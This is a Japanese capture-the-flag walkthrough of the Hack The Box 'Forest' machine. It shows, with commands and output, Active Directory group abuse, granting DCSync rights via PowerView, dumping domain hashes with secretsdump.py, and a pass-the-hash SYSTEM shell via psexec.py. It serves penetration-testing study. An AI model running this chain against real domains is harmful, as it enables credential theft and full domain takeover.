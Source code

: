 参照：[Hack The Box - Forest Walkthrough](https://youtu.be/kcv9cH-nLq8)

## Exchange Windows Permissionsグループへの自身の追加と新規アカウント作成

svc-alfrescoのノードにおいて、`Reachable High Value Targes`をクリックした結果：

![スクリーンショット 2021-12-19 14 45 45](https://user-images.githubusercontent.com/85237728/146665370-fa20347c-7222-461b-81f7-c07421e7e608.png)

-> `ACCOUNT OPERATORS`のメンバは`EXCHANGE WINDOWS PERMISSIONS`に対して**GenericAll**である。つまり`EXCAHNGE WINDOWS PERMISSIONS`にユーザを作ったり、自分自身を追加したりできる。

（GenericAllのヘルプ）
> The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.<br>This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

そして、`EXCHANGE WINDOWS PERMISSIONS`のメンバーは`HTB.LOCAL`に対して**WriteDacl**の権限がある！

（Write Daclのヘルプ）
> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
> <br>With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

まず、`net group`コマンドにて、`svc-alfresco`ユーザを`Exchange Windows Permissions`グループへ追加（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

（`net group`や`whoami /groups`で確認）

注）addしたのにメンバーになってない場合は、一旦Evil-WinRMを^Cで抜けて、もう一度接続し直すとよい。

新規ドメインアカウントを作成する。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shoebill Passw0rd! /add /domain
The command completed successfully.
```

新規ドメインアカウントshoebillを`EXCHANGE WINDOWS PERMISSIONS`に入れる（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Exchange Windows Permissions' shoebill /add
The command completed successfully.
```

（できれば、`Remote Management Users`にも属させておく）

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Remote Management Users' shoebill /add
The command completed successfully.
```

-> *ここまでで、まず自分svc-alfrescoを`Excange Windows Permissions`に配属させ、さらに`Exchange Windows Permissions`に新規のアカウント**shoebill**をも配属させた。*

## PowerView.ps1によるDCSync

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Import-Module .\PowerView.ps1
```
> To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity 'DC=htb, DC=local' -Rights DCSync
```
＝「**htb.local**のアカウント**shoeiblll**に**DCSync**のprivilegeを持たせる」

注）`Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity htb.local -Rights DCSync`ではエラー！（DCはDomain Component）.

> `Add-DomainObjectAcl`: Adds an ACL for a specific active directory object. This function modifies the ACL/ACE entries for a given Active Directory target object specified by `-TargetIdentity`.  These rights are granted on the target object for the specified `-PrincipalIdentity`.

DCSyncのprivielgeを持ったユーザが作成できたら、**secretsdump.py**でハッシュダンプ。

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py 'htb.local/shoebill:Passw0rd!@10.10.10.161'

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

最後にPass the HashでAdminのシェルゲット

```
┌──(kali㉿kali)-[~]
└─$ psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file zEmdPRll.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service saol on 10.10.10.161.....
[*] Starting service saol.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


## DCSync攻撃について

**自分がドメインコントローラになりすますことでドメイン内のユーザハッシュが上記のように取れる。**








